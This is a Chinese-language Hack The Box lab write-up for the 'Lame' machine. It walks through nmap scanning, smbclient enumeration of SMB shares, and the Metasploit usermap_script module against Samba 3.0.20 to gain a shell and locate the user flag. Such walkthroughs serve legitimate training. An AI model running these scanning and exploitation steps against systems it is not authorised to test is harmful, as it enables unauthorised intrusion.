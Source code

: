 # HTB Lame
###### tags: `HTB`

1. 首先使用Nmap對目標主機進行PortScan，並將輸出結果儲存
```
nmap -A -T4 -oA nmap/Lame 10.10.10.3
```
![](https://i.imgur.com/GYhrfyY.jpg)

2. 使用Nmap Vlun腳本查看是否有可利用的漏洞，並將儲存結果
```
nmap --script vuln -oA nmap/vlunscan_Lame 10.10.10.3
```
![](https://i.imgur.com/iu5oYoK.png)

* 腳本嘗試了ms10-054 & ms10-061 但沒有奏效

3. 使用less指令查看PortScan的Report
```
less nmap/Lame.nmap
```
* 可以發現到FTP Service(21Port)是開啟的並且可以執行匿名登入，這代表我們可以隨意上傳和下載檔案，但是儘管我們上傳了惡意檔案，也需要使用社交工程的方式誘騙使用者去執行該檔案，所以這不是我們的主要破題思路。
![](https://i.imgur.com/pVuPh9t.png)

* 可以發現到SSH Service(22Port)是開啟的，但是由於我們沒有金鑰，最後可能嘗試以暴力破解的方式登入並連線，但是暴力破解容易引起目標使用者的注意，甚至我們尚未知道多次登入失敗是否會有lock的狀況，所以這也不是我們主要的破題思路。
![](https://i.imgur.com/Yr6mbV5.png)

* 最後可以發現Samba Service(139/445Port)是有開啟的，接下我們可以往這方向做點嘗試
![](https://i.imgur.com/VbTRUJZ.png)
4. 掃描目標主機分享目錄
```
smbclient -L \\\\10.10.10.3\\
```
![](https://i.imgur.com/gp0ZM3V.png)

5. 嘗試連線到目錄中的檔案查看是否有我們可以使用的資訊，例如SSH金鑰等等...
```
smbclient  \\\\10.10.10.3\\tmp
```
![](https://i.imgur.com/tnLjVFW.png)

* 其他檔案需要密碼才能訪問
![](https://i.imgur.com/foyrEDL.png)

* SMB上找不到可以用的相關資訊，繼續查看PortScan Report
6. 從Report上我們可以得知目標主機OS相關訊息
![](https://i.imgur.com/7dCKxsl.png)

* Google Samba 3.0.20相關漏洞
![](https://i.imgur.com/Sxx6Xe5.png)
* 從Rapid7的資料來看，可以繞過Authentication，感覺是可以用的!
![](https://i.imgur.com/Lq7j6LF.png)
7. 使用Metasploit console
* 先重新啟動postgresql service
```
service postgresql restart
```
* 用msfconsole啟動metasploit
```
msfconsole
```
![](https://i.imgur.com/m8HbC6n.png)
* 選擇要利用的漏洞
```
use exploit/multi/samba/usermap_script
```
* 查看需要帶入的參數
```
options
```
* 設定目標主機IP
```
set RHOST 10.10.10.3
```
* 進行Exploit
```
exploit
```
![](https://i.imgur.com/KV7I83a.png)
* Exploit成功後，會建立一個Session，可以用Whoami確認自己的身分權限
![](https://i.imgur.com/WDV0uu0.png)
* 尋找Flag，使用Find指令
```
find "/" -name "user.txt"
```
![](https://i.imgur.com/M8t1jHa.png)
